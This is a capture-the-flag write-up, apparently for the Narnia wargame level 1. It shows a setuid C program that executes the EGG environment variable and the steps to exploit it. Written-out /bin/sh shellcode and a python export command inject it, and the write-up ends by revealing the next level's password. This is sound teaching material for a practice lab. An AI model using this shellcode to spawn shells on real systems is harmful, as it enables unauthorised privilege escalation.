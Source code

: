 # Narnia Level 1

In this level we have a binary narnia1 that runs suid as narnia2 and the source code

The source code is as follows:

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The code uses the function `getenv` which returns the value of what is stored at the environment variable given as an argument. Then the program places the value returned from `getenv` into a pointer to a function named `ret` that returns an integer and then that function is run.

The aim is to place something executable into an environment variable named `EGG` that will be run as a function.

To create an environment variable we use the command `export=“value in environment variable”`.

If we attempt to place some raw commands into our environment variable we are returned this error:

![image-20200419013307607](../src/image-20200419013307607.png)

This shows us that the program is unable to execute this as a function. This is because what is returned from the `getenv` function is just the string we placed into our environment variable

We need to make it so that what is returned from `getenv` is executable as a function. To do this we use shellcode. Shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. Shellcode is directly executable and is written in hexadecimal.

Shellcode is able to be found easily online and it is also possible to write your own shellcode however you should be very careful where you source your shellcode if you dont write it yourself. I reccomend using websites such as *shell-storm.org* to source your shellcode and that is where the shellcode we will be using comes from.

The shellcode we need is to run `/bin/sh` allowing us to gain a shell as narnia2. This shellcode is as follows:
```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```

We now need to place this into the environment variable EGG. To do this we can use the export command again however after completing this we are returned this error:

![image-20200419014641946](../src/image-20200419014641946.png)

This is because even though we have placed the shellcode into the environment variable it is still classed as a string of ASCII characters not the actual shellcode itself.  We can see this by using the `env` command which shows us the variables in the environment. Here we see the value of `EGG` alongside the other environment variables:

![image-20200419015216798](../src/image-20200419015216798.png)

To change this from just being a string we need to find something that can print our shellcode into its executable format. To do this we can use python.

Python can be used to print our shellcode into the environment variable which makes it executable.

The new command becomes:
 `export EGG=$(python -c ‘print “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')`

After this command is run we can see that the value of `EGG` in the environment has changed to:

![image-20200419015541563](../src/image-20200419015541563.png)

Now when we execute the program narnia1 we get the output:

![image-20200419015757431](../src/image-20200419015757431.png)

Which gives us a shell where we are the user narnia2 and we can see that the password is: `nairiepecu`